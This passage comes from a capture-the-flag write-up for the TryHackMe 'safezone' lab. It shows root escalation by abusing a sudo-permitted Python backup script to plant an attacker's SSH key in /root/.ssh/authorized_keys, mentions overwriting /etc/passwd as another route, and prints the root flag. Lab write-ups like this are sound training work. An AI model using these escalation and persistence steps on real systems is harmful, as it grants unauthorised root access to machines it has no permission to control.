

Okay, I decided to put my public key inside root folder. Another way will be overriding `/etc/passwd` and add root user with password I control.

First, let's generate the key:
```bash
ssh-keygen -t rsa -b 2048 -f ./key -q -N ""
```

Now, we need to put the content of `key.pub` inside `/tmp/authorized_keys`.

Lastly, we'll copy `/tmp/authorized_keys` to `/root/.ssh/authorized_keys`:
```bash
yash@safezone:/tmp$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /tmp/authorized_keys
Enter destination: /root/.ssh/authorized_keys
Enter Password: check
```

Now, we can login via ssh to user `root` with the private key we created:
```bash
ssh root@safezone.thm -i ./key
```



and the root flag:
```bash
root@safezone:~# cat root.txt 
THM{63a9f0ea7bb98050796b649e85481845}
```